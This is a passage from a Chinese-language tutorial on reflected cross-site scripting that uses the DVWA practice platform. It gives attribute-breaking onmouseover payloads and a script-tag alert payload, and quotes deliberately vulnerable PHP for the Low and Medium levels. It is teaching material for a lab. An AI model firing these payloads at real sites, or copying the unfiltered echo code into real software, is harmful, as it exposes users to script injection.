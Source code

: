 **隐藏input，找到\<input\>标签中的name：**

```
?name="type="text" onmouseover="alert(/2333/) 
```

**IE浏览器特性：**

```
``onmouseover=alert(document.domain);
```



**我们以DVWA的平台作为示例**

##### 反射 XSS LOW

**源码**

```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    
    // Feedback for end user
    $html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
```

可以看到`name`变量并没有进行任何过滤措施，只是检测了不为空就输出到本页面。因此这里随便填payload就可以了

```
<script>alert('2333')</script>
```



##### 反射 XSS Medium

**源码**

```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    $html .= "<pre>Hello ${name}</pre>";
}
?>
```
